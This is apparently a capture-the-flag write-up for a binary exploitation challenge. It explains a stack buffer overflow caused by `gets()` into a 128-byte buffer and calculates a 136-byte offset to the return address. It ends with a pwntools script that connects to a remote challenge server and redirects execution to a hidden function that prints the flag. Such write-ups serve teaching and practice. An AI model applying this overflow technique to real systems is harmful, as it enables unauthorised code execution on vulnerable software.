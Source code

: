 This function opens a file (likely containing the flag) and prints its contents. This is our target function that we need to redirect execution to.

## Vulnerability Analysis

### Buffer Overflow in `gets()`

The vulnerability lies in the `question` function's use of `gets()`:

1. **Buffer Size:** 128 bytes allocated on stack (`rbp-0x80`)
2. **Input Function:** `gets()` - notorious for not checking input length
3. **Memory Layout:**
   ```
   [128-byte buffer] [8-byte rbp] [8-byte return address]
   ```

### Calculating the Offset

To overwrite the return address, we need to:
1. Fill the 128-byte buffer
2. Overwrite the saved RBP (8 bytes)
3. Overwrite the return address (8 bytes)

**Total offset:** 128 + 8 = 136 bytes

## Exploitation

### Exploit Strategy

1. **Overflow the buffer** with 136 bytes of padding
2. **Overwrite the return address** with the address of `armageddon` function (0x401216)
3. **Redirect execution** to the hidden function that prints the flag

### Exploit Code

```python
# exploit.py
from pwn import *

# Connect to remote server
p = remote('152.42.220.146', 35176)

# Calculate offset to return address
offset = 136

# Create padding to reach return address
padding = b'A' * offset

# Address of armageddon function (little-endian format for x64)
armageddon_addr = p64(0x401216)

# Construct the payload
payload = padding + armageddon_addr

# Send the payload
log.info(f"Payload: {payload}")
p.sendline(payload)

# Get the flag
p.interactive()
```
